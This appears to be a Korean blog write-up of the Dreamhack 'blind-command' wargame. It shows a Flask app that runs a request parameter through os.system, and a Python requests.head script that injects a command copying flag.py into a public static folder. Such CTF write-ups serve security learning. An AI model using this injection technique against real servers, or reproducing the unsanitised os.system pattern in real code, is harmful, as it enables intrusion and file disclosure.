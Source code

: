 ```yaml
---
layout : single
title : "STAGE10. Web Hacking Epilogue"
categories: Security
tag: [dreamhack, webhacking, wargame]
sidebar:
    nav: "docs"
---
```


# 드림핵 웹 Web Hacking Epilogue

-  [x] wargame : blind-command

## Wargame : blind-command

blind command injection은 시스템 명령의 수행 결과 값을 알 수 없을 때 사용하는 방법이다. 아래 코드는 문제 파일의 app.py인데, 메소드가 GET이 아닐 경우 cmd 파라미터로 전달된 값을 시스템 명령어로 실행시킨다. 

```python
from flask import Flask, request
import os

app = Flask(__name__)

@app.route('/' , methods=['GET'])
def index():
    cmd = request.args.get('cmd', '')
    if not cmd:
        return "?cmd=[cmd]"

    if request.method == 'GET':
        ''
    else:
        os.system(cmd)
    return cmd

app.run(host='0.0.0.0', port=8000)
```

### 풀이 1

1) httpie를 통해 해당 서버에 OPTIONS 메소드로 요청을 보냄

아래 결과와 같이, HEAD, GET, OPTIONS 세 가지 메소드를 사용할 수 있다는 것을 확인할 수 있다

<img src = "/images/wargame/20.png"><br>

2) HEAD 메소드로 우회하여 시도

하였으나 장렬히 실패함. 구글링 결과 burp suite를 사용해서 하는 방법만 나오는데 난 아직 burp suite를 깔지 않았으므로 (+귀찮으므로) 다른 방법을 찾았다

### 풀이 2

static이라는 폴더와 flag.txt 파일을 생성하고 flag.py의 내용을 읽어 저장하면 어떨까 싶어 현재 주소에서 flag.py를 cat 한 후, static/flag.txt에 저장하도록 코드를 작성하였다.

```python
import requests

host = "http://host3.dreamhack.games:21943/"
params = {'cmd':'mkdir static; cat flag.py > static/flag.txt'}

req = requests.head(host, params=params)
```

위 코드를 실행 후 /static/flag.txt 로 접근한 결과, 아래와 같이 flag를 얻을 수 있었다

<img src = "/images/wargame/21.png">